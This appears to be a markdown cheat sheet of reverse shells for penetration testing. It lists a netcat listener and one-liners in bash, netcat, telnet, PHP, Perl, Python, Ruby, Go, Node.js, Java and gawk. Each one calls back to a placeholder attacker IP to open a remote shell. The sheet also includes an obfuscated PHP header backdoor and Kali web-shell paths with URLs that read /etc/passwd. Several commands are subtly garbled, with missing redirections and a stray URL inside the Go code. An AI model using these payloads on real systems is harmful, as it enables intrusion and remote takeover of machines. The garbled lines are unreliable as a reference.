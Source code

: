 # Various Reverse Shells


## Setup a listner

```
nc -nvlp 4444
```

## Netcat Reverse Shell

```
nc -e /bin/sh <ATTACKING-IP> 4444
```
```
/bin/sh | nc <ATTACKING-IP> 4444
```
```
rm -f /tmp/p; mknod /tmp/p p && nc <ATTACKING-IP> 4444 0/tmp/p
```
### NC OPENBSD
```
mkfifo /tmp/lol;nc <ATTACKING-IP> 4444 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```
## Telnet Reverse Shell
```
rm -f /tmp/p; mknod /tmp/p p && telnet <ATTACKING-IP> 4444 0/tmp/p
```
```
telnet <ATTACKING-IP> 80 | /bin/bash | telnet <ATTACKING-IP> 4444
```

## Bash Reverse Shell

```
exec /bin/bash 0&0 2>&0
```
```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```
```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done
```
Or
```
while read line 0<&5; do $line 2>&5 >&5; done
```
```
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

## PHP Reverse Shell

Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6
```
php -r '$sock=fsockopen("ATTACKING-IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/4444 0>&1'");?>
```
Base64 encoded
```
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```

## socat Reverse Shell

```
socat tcp:ip:port exec:'bash -i' ,pty,stderr,setsid,sigint,sane &
```

## Perl Reverse Shell
```
perl -e 'use Socket;$i="ATTACKING-IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby Reverse Shell

```
ruby -rsocket -e'f=TCPSocket.open("<ATTACKING-IP>",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Python Reverse Shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKING-IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Golang Reverse Shell

```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","<ATTACKING-IP>:4444");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
```

## Node.js Revese Shell
```
require('child_process').exec('bash -i >& /dev/tcp/<ATTACKING-IP>/4444 0>&1');
```
## Java Reverse Shell
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<ATTACKING-IP>/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## Gawk Reverse Shell

```
gawk 'BEGIN {P=4444;S="> ";H="<ATTACKING-IP>";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'
```
```
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

# Kali Web Shells
The following shells exist within Kali Linux, under /usr/share/webshells/ these are only useful if you are able to upload, inject or transfer the shell to the machine.

## PHP
`/usr/share/webshells/php/php-reverse-shell.php`

`/usr/share/webshells/php/php-findsock-shell.php`

`/usr/share/webshells/php/findsock.c` - You will need to run `gcc -o findsock findsock.c` to compile it and execute with netcat not a browser `nc -v <target-ip> 4444`

`/usr/share/webshells/php/simple-backdoor.php` PHP backdoor, usefull for CMD execution if upload / code injection is possible, usage: ```http://target.com/simple-
backdoor.php?cmd=cat+/etc/passwd```

`/usr/share/webshells/php/php-backdoor.php` - Larger PHP shell, with a text input box for command execution.

> The last two shells above are not reverse shells, however they can be useful for executing a reverse shell.

## Perl
`/usr/share/webshells/perl/perl-reverse-shell.pl`

`/usr/share/webshells/perl/perlcmd.cgi` - Usage - `http://target.com/perlcmd.cgi?cat /etc/passwd`


## Cold Fusion(CFM)
`/usr/share/webshells/cfm/cfexec.cfm`

## ASP/ASPX
`/usr/share/webshells/asp/`

`/usr/share/webshells/aspx/`

## JSP
`/usr/share/webshells/jsp/jsp-reverse.jsp`
